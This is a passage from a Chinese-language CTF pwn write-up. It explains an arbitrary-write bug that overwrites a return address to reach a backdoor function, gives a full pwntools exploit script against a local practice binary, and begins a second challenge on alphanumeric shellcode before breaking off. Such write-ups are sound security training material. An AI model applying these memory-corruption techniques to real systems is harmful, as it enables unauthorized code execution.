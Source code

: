 ![image-20210408211036271](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739869.png)

由于存在相当明显的后门函数，我们利用任意写改掉返回地址就行，注意写的顺序，因为内存中是小端序，所以如果地址是0x12345678，逐个输入78 56 34 12  

![image-20210408200256615](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739487.png)

返回地址的第一个字节的下标为0xFFDC655C - 0xFFDC64D8 = 0x84 = 132

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./pwn')
p.recvuntil('How many numbers you have:\n')
p.sendline(b'1')
p.recvuntil('Give me your numbers\n')
p.sendline(b'1')
p.recvuntil('5. exit\n')
p.sendline(b'3')
p.recvuntil("which number to change:\n")
p.sendline(b'132')
p.recvuntil("new number:\n")
p.sendline(b'155')
p.recvuntil('5. exit\n')
p.sendline(b'3')
p.recvuntil("which number to change:\n")
p.sendline(b'133')
p.recvuntil("new number:\n")
p.sendline(b'133')
p.recvuntil('5. exit\n')
p.sendline(b'3')
p.recvuntil("which number to change:\n")
p.sendline(b'134')
p.recvuntil("new number:\n")
p.sendline(b'4')
p.recvuntil('5. exit\n')
p.sendline(b'3')
p.recvuntil("which number to change:\n")
p.sendline(b'135')
p.recvuntil("new number:\n")
p.sendline(b'8')
p.recvuntil('5. exit\n')
p.sendline(b'5')
p.interactive()
```

# mrctf2020_shellcode_revenge

将call rax nop掉，可以F5出代码

![image-20210409105933197](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739928.png)

要求写入的shellcode必须是可见的大小写字母或数字，要是翻汇编指令对应的字节码去一个个查也太难顶了，这时候需要用到工具
